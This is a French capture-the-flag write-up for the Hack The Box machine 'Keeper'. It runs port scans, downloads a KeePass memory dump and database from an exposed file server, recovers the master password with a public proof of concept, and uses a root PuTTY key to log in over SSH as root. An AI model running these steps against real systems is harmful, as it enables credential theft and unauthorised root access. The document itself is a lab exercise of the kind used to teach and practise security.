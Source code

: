   # Keeper

	echo "10.10.11.227 keeper.htb" >> /etc/hosts
	echo "10.10.11.227 tickets.keeper.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.227 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 10.10.11.227 -oN nmap.txt

	
Scans classiques.

	PORT STATE SERVICE VERSION  
	22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
	80/tcp open http nginx 1.18.0 (Ubuntu)  
	8000/tcp open http SimpleHTTPServer 0.6 (Python 3.10.12)

Le site du port 80 redirige vers http://tickets.keeper.htb/rt/ et cette page contient un formulaire de login.
</br>Le site du port 8000 renvoie un listing de fichiers très intéressants, dont le flag utilisateur, un fichier .kdbx et un dump KeePass notamment : 

	wget http://keeper.htb:8000/KeePassDumpFull.dmp
	wget http://keeper.htb:8000/passcodes.kdbx
	wget http://keeper.htb:8000/user.txt
    cat user.txt 

	strings KeePassDumpFull.dmp > dump.txt

Rien de pertinent dans le contenu du dump et impossible de cracker le .kdbx avec John mais il existe un autre moyen d'exploiter les fichiers .dmp pour d'anciennes versions de KeePass : https://github.com/CMEPW/keepass-dump-masterkey

	python poc.py KeePassDumpFull.dmp

On obtient un résultat étrange : 

	2023-08-27 20:29:45,057 [.] [main] Opened KeePassDumpFull.dmp
	Possible password: ●,dgr●d med fl●de
	Possible password: ●ldgr●d med fl●de
	Possible password: ●`dgr●d med fl●de
	Possible password: ●-dgr●d med fl●de
	Possible password: ●'dgr●d med fl●de
	Possible password: ●]dgr●d med fl●de
	Possible password: ●Adgr●d med fl●de
	Possible password: ●Idgr●d med fl●de
	Possible password: ●:dgr●d med fl●de
	Possible password: ●=dgr●d med fl●de
	Possible password: ●_dgr●d med fl●de
	Possible password: ●cdgr●d med fl●de
	Possible password: ●Mdgr●d med fl●de

En recopiant certains de ces résultats sur Google, je suis tombé sur le nom d'un dessert danois nommé **"rødgrød med fløde"** et cela a fonctionné comme mot de passe pour le KeePass. 

	keepassxc passcodes.kdbx

On trouve deux comptes qui ne servent pas à grand chose, mais également un fichier PPK pour root dans les notes. Il est possible de convertir ce fichier en clé privée classique.

Voir : https://superuser.com/questions/232362/how-to-convert-ppk-key-to-openssh-key-under-linux

	vim putty.ppk 
	puttygen putty.ppk -O private-openssh -o id_rsa
	chmod 600 id_rsa
	ssh -i id_rsa -l root 10.10.11.227
	cat /root/root.txt
